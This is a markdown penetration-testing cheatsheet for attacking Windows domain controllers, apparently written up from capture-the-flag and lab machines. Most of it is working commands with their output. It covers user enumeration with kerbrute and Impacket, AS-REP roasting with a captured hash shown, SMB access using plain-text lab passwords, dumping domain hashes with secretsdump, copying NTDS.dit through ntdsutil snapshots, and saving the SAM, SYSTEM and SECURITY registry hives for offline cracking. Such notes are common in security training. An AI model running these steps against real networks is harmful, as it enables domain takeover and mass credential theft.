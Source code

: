 # Domain Controllers

## Basics

* Find the NETBIOS Domain Name

```
nbtscan -v 10.10.8.1-254
```

* Should also be in nmap output

```
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   DNS_Tree_Name: spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-08-20T18:00:52+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
```

* Add to `/etc/hosts`

## Kerbrute

* Find valid users
* Example Syntax

```
kerbrute -users userlist.txt -domain spookysec.local -dc-ip 10.10.55.114
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Valid user => james
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Blocked/Disabled user => guest
[*] Valid user => darkstar
```

* what a successful tool run looks like where no valid users are found&#x20;

```
./kerbrute_linux_amd64 userenum --dc COMPANY.local -d COMPANY.local /home/ubuntu/Documents/htb/company/users.txt
2024/04/14 15:18:42 >  Done! Tested 6 usernames (0 valid) in 0.100 seconds

./kerbrute_linux_amd64 userenum --dc COMPANY.local -d COMPANY.local /usr/share/seclists/Usernames/top-usernames-shortlist.txt
2024/04/14 15:20:29 >  Done! Tested 17 usernames (0 valid) in 0.227 seconds
```

## Impacket

* Location:

```
/usr/share/doc/python3-impacket/examples/
```

* If we have IPC$ access without authentication we are able to list the domain users as anonymous

```
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
```

* Isolate the users with `SidTypeUser`

```
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
```

* Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:

```
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
```

* Should retrive a hash if the command is sucessful

```
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
```

* Crack the hash with `john`

### SMB Samba authenticated access

```
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
smbmap -u svc-admin -p management2005 -H 10.10.248.93
smbclient -U spookysec.local/svc-admin \\\\10.10.248.93\\backup 
```

* Cat out files with `smb`

```
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
```



### Dump hashes

* Use `secretsdump.py` with impacket
* This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer.
* Creds used need to be domain admin for this to work

```
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.248.93
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```

![spooky](https://user-images.githubusercontent.com/75596877/130284812-511a8141-5917-4954-8c29-e623c1edce36.png)

#### Alt Method

* Open `cmd.exe`
* Run `ntdsutil` from the command prompt, enter these commands

```
snapshot
activate instance NTDS
create
```

* Takes a snapshot of the DC
* Will show you the UUID of the newly created snapshot.
* ntdsutil is using Volume Shadow Copy for the snapshot creation, but also ensures the database consistency. Use the UUID for the following command:

```
mount <UUID>
```

* The output will show the path where the snapshot was mounted. Start another cmd.exe as Administrator and copy NTDS.dit (located in `Windows\NTDS\NTDS.dit` by default).
* Create a copy of the `SYSTEM` registry hive:

```
reg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>
```

* Go back to the `cmd.exe` window with `ntdsutil` running, and `unmount` (and optionally `delete`) the snapshot and exit:

```
unmount <UUID>
delete <UUID>
quit
quit
```

* Using the two saved files (`NTDS.dit` and `SYSTEM` registry hive) you can use the same `secretsdump.py` script to extract password hashes offline (doesn’t need to be done on the domain controller):

```
secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
```

#### Secretsdump Local

* Exfil the registry hives

```
reg.exe save hklm\security C:\temp\security.save
reg.exe save hklm\system C:\temp\system.save
reg.exe save hklm\SAM C:\temp\sam.save
```

* Extract hashes from exfiled SECURITY SAM and SYSTEM

```
python3 secretsdump.py -security security.save -system system.save -sam sam.save LOCAL
```

#### Another Cheatsheet

* https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

### Invoke-ShareFinder

```
Invoke-ShareFinder  -Verbose
VERBOSE: [*] Running Invoke-ShareFinder with delay of 0
VERBOSE: [*] Querying domain rastalabs.local for hosts
VERBOSE: Get-DomainSearcher search string: LDAP://dc01.rastalabs.local/DC=rastalabs,DC=local
VERBOSE: Get-NetComputer filter : '(&(sAMAccountType=805306369)(dnshostname=*))'
VERBOSE: [*] Total number of hosts: 12
VERBOSE: Waiting for scanning threads to finish...
VERBOSE: All threads completed!
VERBOSE: [*] Total number of active hosts: 12
VERBOSE: [*] Enumerating server dc01.rastalabs.local (1 of 12)
\\dc01.rastalabs.local\ADMIN$   - Remote Admin
\\dc01.rastalabs.local\C$       - Default share
\\dc01.rastalabs.local\IPC$     - Remote IPC
\\dc01.rastalabs.local\NETLOGON         - Logon server share 
--snip--
```
